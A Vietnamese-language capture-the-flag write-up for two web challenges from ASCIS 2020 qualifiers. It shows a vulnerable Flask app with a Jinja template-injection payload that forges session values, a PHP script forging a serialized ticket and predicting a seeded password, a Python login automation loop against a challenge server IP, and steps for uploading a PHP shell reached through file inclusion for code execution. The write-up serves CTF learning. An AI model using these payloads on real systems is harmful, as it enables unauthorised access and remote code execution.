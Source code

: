 ```yaml
---
title: "ASCIS 2020 Quals - Web"
date: 2020-11-01
tags: ["ctf", "web"]
description: ""
layout: layouts/post.njk
---
```

## TSULOTT3
Đề chỉ có 1 file `main.py` như sau:
```python
from flask import Flask, session, request, render_template, render_template_string
from flask_session import Session
from random import randint as ri

app = Flask(__name__)
SESSION_TYPE = 'filesystem'
app.config.from_object(__name__)
Session(app)
cheat = "Pls Don't cheat! "

def check_session(input):
	if session.get(input) == None:
		return ""
	return session.get(input)

@app.route("/", methods=["GET","POST"])
def index():
	try:
		session.pop("name")
		session.pop("jackpot")
	except:
		pass
	if request.method == "POST":
		ok = request.form['ok']
		session["name"] = request.form['name']
		if ok == "Go":
			session["check"] = "access"
			jackpot = " ".join(str(x) for x in [ri(10,99), ri(10,99), ri(10,99), ri(10,99), ri(10,99), ri(10,99)]).strip()
			session["jackpot"] = jackpot
			return render_template_string("Generating jackpot...<script>setInterval(function(){ window.location='/guess'; }, 500);</script>")
	return render_template("start.html")

@app.route('/guess', methods=["GET","POST"])
def guess():
	try:
		if check_session("check") == "":
			return render_template_string(cheat+check_session("name"))
		else:
			if request.method == "POST":
				jackpot_input = request.form['jackpot']
				if jackpot_input == check_session("jackpot"):
					mess = "Really? GG "+check_session("name")+", here your flag: ASCIS{xxxxxxxxxxxxxxxxxxxxxxxxx}"
				elif jackpot_input != check_session("jackpot"):
					mess = "May the Luck be with you next time!<script>setInterval(function(){ window.location='/reset_access'; }, 1200);</script>"
				return render_template_string(mess)
			return render_template("guess.html")
	except:
		pass
	return render_template_string(cheat+check_session("name"))


@app.route('/reset_access')
def reset():
	try:
		session.pop("check")
		return render_template_string("Reseting...<script>setInterval(function(){ window.location='/'; }, 500);</script>")
	except:
		pass
	return render_template_string(cheat+check_session("name"))


if __name__ == "__main__":
	app.secret_key = 'xxxxxxxxxxxxxxxxxxxxx'
	app.run()
```
### Cách 1
```
POST /

{% raw %}name={% set x=session.update({'check': 'access', 'jackpot': ''}) %}&ok={% endraw %}
```
```
POST /guess

jackpot=
```
### Cách 2
*Không khai thác SSTI*

1. Submit name bất kì tại `/`, sau đó sẽ được redirect sang `/guess`.
```python
# Mô tả session
session = {'name': 'anything', 'check': 'access', 'jackpot': 'xx xx xx xx xx xx'}
```
2. Truy cập lại về `/`.
```python
# Mô tả session
session = {'check': 'access'}
```
3. Quay trở lại `/guess` và submit với 1 input rỗng (vì hàm `check_session` sẽ trả về chuỗi rỗng nếu key không tồn tại).

## among_us
1. Viết PHP script để generate ra `ticket` và password mới cho user
```php
<?php
class CrewMate {
	public $name = 'tsu';
	public $secret_number = [1, 2, 3, 4, 5, 6, 7, 8, 9];
}

$arr = new CrewMate;
$se = serialize($arr);

echo base64_encode($se) . PHP_EOL;

$de = unserialize($se);
$secret_number = strtoupper($de->secret_number);
$random_rand = rand(0, $secret_number);
srand($random_rand);
$new_password = "";
while (strlen($new_password) < 30) {
    $new_password .= strval(rand());
}
echo 'New password: ' . $new_password . PHP_EOL;
?>
```
2. Viết Python script để tự động hóa việc lấy token để đăng nhập
```python
from re import findall
from hashlib import md5
import requests

REGEX_TOKEN = r'name="token" value="(.*?)"'
PHPSESSID = '' # Nhập PHPSESSID vào biến

while True:
    res = requests.get('http://35.240.156.48/?page=forgot', cookies={
        'PHPSESSID': PHPSESSID
    })
    token = findall(REGEX_TOKEN, res.text)[0]
    res = requests.post('http://35.240.156.48/?page=forgot', data={
        'ticket': 'Tzo4OiJDcmV3TWF0ZSI6Mjp7czo0OiJu[redacted]', # Ticket được lấy từ PHP script ở trên
        'token': token
    }, cookies={
        'PHPSESSID': PHPSESSID
    })

    res = requests.get('http://35.240.156.48/?page=login', cookies={
        'PHPSESSID': PHPSESSID
    })
    token = findall(REGEX_TOKEN, res.text)[0]
    res = requests.post('http://35.240.156.48/?page=login', data={
        'username': 'tsu',
        'password': '117856802212731241191535857466', # Password được lấy từ PHP script ở trên
        'token': token
    }, cookies={
        'PHPSESSID': PHPSESSID
    })
```
Chạy cho đến khi script bị lỗi tại hàm `findall` thì dừng lại (vì login xong sẽ không còn form login nữa nên không thể lấy được token, dẫn đến lỗi).

3. Upload 1 PHP shell và server sẽ tạo 1 file zip chứa file mình mới upload lên và sẽ được xóa cho đến khi có 1 lượt upload khác.
4. Sử dụng lỗi LFI ở trang `index.php` + zip wrapper để include PHP shell trong file zip => RCE.
5. Lấy flag ở trong database.
